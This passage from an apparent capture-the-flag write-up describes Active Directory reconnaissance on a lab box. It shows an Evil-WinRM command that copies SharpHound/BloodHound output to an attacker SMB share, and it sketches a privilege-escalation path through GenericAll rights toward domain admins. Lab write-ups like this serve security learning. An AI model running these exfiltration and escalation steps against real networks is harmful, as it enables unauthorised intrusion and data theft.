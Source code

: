```powershell
d-----        9/22/2019   4:56 PM                VMware
-a----       12/18/2021  10:29 PM          15288 20211218222955_BloodHound.zip
-a----       12/18/2021  10:29 PM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin

*Evil-WinRM* PS C:\programdata> copy 20211218222955_BloodHound.zip \\10.10.14.7\smb\20211218222955_BloodHound.zip
```
Download SharpHound.ps1 directly into memory. And executed to collect all information. Them i copied zip file back to kali box. I checked results in bloodhound 

![](/images/forest/bloodhound.png)

Red arrow on left is my account `svc-alfresco` and one on the right is my target `domain admins`.I need to do 2 things. I need to become `EXCHANGE WINDOWS PERMISSIONS` administrator. I can do it easy with `net` commands as I have `GenericAll` permistion.

![](/images/forest/bloodhound1.png)
